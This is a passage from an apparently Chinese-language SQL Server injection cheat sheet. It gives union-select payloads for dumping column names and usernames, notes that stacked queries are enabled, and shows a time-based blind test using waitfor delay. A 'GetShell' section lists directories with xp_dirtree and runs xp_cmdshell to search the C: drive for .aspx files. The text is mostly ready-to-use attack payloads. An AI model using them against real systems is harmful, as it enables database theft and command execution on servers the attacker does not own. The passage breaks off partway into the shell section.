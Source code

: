   - 爆字段值

  ```mssql
  ?id=-1' union select  top 1  1,2, COLUMN_NAME from 'users' --
  
  
  ?id=-1' union select  top 1 1,2,username from users where username!='Dumb'--
  
  ?id=-1' union select  top 1 1,2,username from users where username not in ('Dumb','Angelina')--
  ```

  

## 堆叠注入

默认开启



## 时间盲注

```mssql
if(xxx) waitfor delay '0:0:2'
```

> 0:0:2
>
> 小时:分钟:秒



# GetShell

## 绝对路径🔍

> `xp_dirtree` 是一个存储过程（stored procedure），它是 Microsoft SQL Server 数据库引擎提供的一个内置过程。该过程可用于执行文件系统目录树扫描操作。
>
> 使用 `xp_dirtree` 存储过程，可以指定一个文件路径，然后执行递归扫描该路径下的所有文件和文件夹，并将结果以表格形式返回给用户

```mssql
execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 
```

```mssql
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);

insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1
```

```mssql
CREATE TABLE cmdtmp (dir varchar(8000));

insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```
